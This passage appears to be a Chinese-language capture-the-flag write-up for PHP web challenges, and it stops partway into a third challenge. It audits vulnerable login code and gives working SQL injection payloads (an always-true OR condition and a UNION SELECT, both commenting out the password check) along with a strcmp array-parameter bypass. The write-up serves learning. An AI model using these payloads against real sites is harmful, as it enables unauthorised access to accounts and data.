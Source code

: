 ```php
  }
  if($query[user] != "admin") {
    echo("<p>You are not admin!</p>");
  }
}
echo $query[user];
```
审计后得到几个条件
 - 对参数进行了除空格，可以用+号或者`/**/`去代替空格
 - 对pass进行了MD5加密，那么pass很难成为利用点
 - 得到的数据为admin，不确定是里面的第几条

根据条件精心构造后

```
user='||1)#&pass=1 //直接将pass部分注释掉，然后user利用永真条件，猜测第一条数据为admin，如果不是用limit遍历即可
user=') union select 'admin' #&pass=1 //union也可以达到目的，不过反而更麻烦了
```

<Br />

### pass check
```php
$pass=@$_POST['pass'];
$pass1=***********;//被隐藏起来的密码
if(isset($pass))
{
if(@!strcmp($pass,$pass1)){
echo "flag:nctf{*}";
}else{
echo "the pass is wrong!";
}
}else{
echo "please input pass!";
}
```
发现可以利用strcmp()漏洞来绕过，得到flag
```
[POSTDATA]
pass[]=123
```
<Br />

### 起名字真难
```php
function noother_says_correct($number)
{
        $one = ord('1');
        $nine = ord('9');
        for ($i = 0; $i < strlen($number); $i++)
        {   
                $digit = ord($number{$i});
                if ( ($digit >= $one) && ($digit <= $nine) )
                {
                        return false;
                }
        }
           return $number == '54975581388';
}
$flag='*******';
if(noother_says_correct($_GET['key']))
    echo $flag;
else
    echo 'access denied';
```